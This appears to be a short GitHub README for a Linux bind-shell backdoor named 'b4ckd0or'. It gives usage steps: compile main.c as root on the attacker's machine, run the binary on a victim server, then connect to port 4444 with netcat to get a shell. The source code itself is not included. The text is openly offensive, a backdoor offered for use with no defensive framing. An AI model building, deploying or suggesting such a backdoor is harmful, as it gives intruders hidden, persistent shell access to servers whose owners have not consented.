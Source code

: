 # b4ckd0or
            /\
           / \\ /\
      /\  /\/  \\V  \/\
     / \\/ // \\\\\ \\ \/\
    //  /   Medn1c    \/ \\
   
Simple bind backdoor destined for linux servers
Use:

    root@samsepi0l:~# gcc main.c -o backdoor
    root@vitima:~# ./backdoor
    root@samsepi0l:~# nc -v 192.168.0.52 4444
    
